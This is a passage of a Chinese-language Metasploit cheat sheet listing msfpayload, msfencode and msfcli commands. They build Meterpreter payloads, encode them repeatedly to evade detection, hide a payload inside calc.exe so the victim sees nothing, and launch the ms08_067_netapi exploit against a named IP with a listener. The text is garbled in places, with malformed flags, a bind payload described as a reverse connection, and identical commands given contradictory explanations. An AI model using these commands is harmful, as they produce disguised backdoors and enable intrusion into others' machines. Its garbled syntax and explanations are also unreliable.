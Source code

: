 生成C格式的shellcode

msfpayload windows/meterpreter/bind_tcp LHOST=192.168.1.5 LPORT=443 J > payload.java

生成以%u编码方式的JavaScript语言字符串

四、MSFencode命令
msfencode -h

帮助信息

msfencode -l

列出所有可用的编码器

msfencode -t (c,elf,exe,java,js_le,js_be,perl,raw,ruby,vba,vbs,loop-vbs,asp,war,macho)

显示编码缓冲区的格式

msfencode -i payload.raw -o encoded_payload.exe -e -x86/shikata_ga_nai -c 5 -t exe

使用shikata_ga_nai编码器对payload.raw文件进行5次编码，然后导出一encoded_payload.exe文件

msfpayload windows/meterpreter/bind_tcp LPORT=443 R | msfencode -e x86/_countdown -c -5 -t raw | msfencode -e x86/shikata_ga_nai -c -5 -t exe -o multi-encoded_payload.exe

创建一个经过多种编码格式嵌套编码的攻击载荷

msfencode -i payload.raw BufferRegister=ESI -e x86/alpha_mixed -t c

创建一个纯字母数字的shellcode，由ESI寄存器指向shellcode，以c语言格式输出。

五、MSFcli命令
msfcli | grep exploit

仅列出渗透攻击模块

msfcli | grep exploit/windows

仅列出与windows相关的渗透攻击模块

msfcli exploit/windows/smb/ms08_067_netapi PAYLOAD=windows/meterpreter/bind_tcp LPORT=443 RHOST=172.16.32.142 E

对172.16.32.142发起ms08_067_netapi渗透攻击，配置了bind_tcp攻击载荷，并绑定在443端口进行监听

六、Metasploit高级忍术
msfpayload windows/meterpreter/bind_tcp LHOST=192.168.1.5 LPORT=443 R | msfencode  -x calc.exe -k -o payload.exe -e x86/shikata_ga_nai -c -7 -t exe

创建一个反弹式的Meterpreter攻击载荷，回连到192.168.1.5主机443端口上，使用calc.exe作为载荷后门程序，让载荷执行流一直运行在被攻击的应用程序中，最后生成以.shikata_ga_nai编码器编码后的攻击载荷可执行程序payload.exe

msfpayload windows/meterpreter/bind_tcp LHOST=192.168.1.5 LPORT=443 R | msfencode -x calc.exe -k -o payload.exe -e x86/shikata_ga_nai -c -7 -t exe

创建一个反弹式的Meterpreter攻击载荷，回连到192.168.1.5主机443端口上，使用calc.exe作为载荷后门程序，不让载荷执行流一直运行在被攻击的应用程序中，同时在攻击载荷执行后也不会在目标主机上弹出任何信息。这种配置非常有效，当你利用浏览器漏洞控制了远程主机，并不想让计算器程序打开呈现在目标用户面前。同样，最后生成以.shikata_ga_nai编码器编码后的攻击载荷可执行程序payload.exe

msfpayload windows/meterpreter/bind_tcp LPORT=443 R | msfencode -x calc.exe -k- -o payload.exe -e x86/shikata_ga_nai -c -7 -t exe && msfcli multi/handler PAYLOAD=windows/meterpreter/bind_tcp LPORT=443 E
